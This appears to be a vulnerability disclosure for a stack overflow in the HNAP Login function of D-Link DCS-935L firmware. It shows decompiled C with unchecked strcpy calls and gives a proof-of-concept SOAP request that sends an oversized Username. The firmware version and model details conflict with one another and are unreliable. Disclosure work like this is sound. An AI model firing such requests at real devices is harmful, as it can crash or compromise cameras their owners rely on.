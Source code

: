 # DCS-935L_A1_FW_1.13.01_r4589  Stack overflow vulnerability

## INFO
Manufacturer's address：https://www.dlink.com/
Firmware download address ： https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L

## Affected version
The firmware used in this analysis is 1.09

## Vulnerability details

At HNAP service, In the Login function, I can enter Action, the Action will strcpy to v42, but program do not check size, resulting in stack overflow.

```c
int __fastcall Login(int a1)
{
......
	ElementByTag = ixmlGetElementByTag(a1, "Login");
  v5 = ElementByTag;
  if ( !ElementByTag )
  {
    ixmlAppendNewElement(Document, Element, "LoginResult", "failed");
    v15 = Document;
    goto LABEL_49;
  }
  ElementValueByTag = (const char *)ixmlGetElementValueByTag(ElementByTag, "Action");
  if ( ElementValueByTag )
    strcpy(v42, ElementValueByTag);
......
}
```

In the Login function, I can enter Username and LoginPassword, the username&password will strcpy to v36&v38, but program do not check the size, resulting in stack overflow.

```c
int __fastcall Login(int a1)
{
......
				v16 = (const char *)ixmlGetElementValueByTag(v5, "Username");
        v17 = (const char *)ixmlGetElementValueByTag(v5, "LoginPassword");
        if ( v16 )
        {
          strcpy((char *)v36, v16);
          if ( !strcmp((const char *)v36, "Admin") )
            snprintf((char *)v36, 0x20u, "%s", "admin");
        }
        if ( v17 )
          strcpy(v38, v17);
        v53 = (const char *)v36;
        fprintf(stderr, "username: %s\\n", (const char *)v36);
        v55 = v38;
        fprintf(stderr, "loginPassword: %s\\n", v38);
......
}

```

## POC

```python
SOAPAction: http://192.168.0.1/HNAP1/Login
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://192.168.0.1/HNAP1/">
      <Action></Action>
      <Username>a * 0x10000</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```
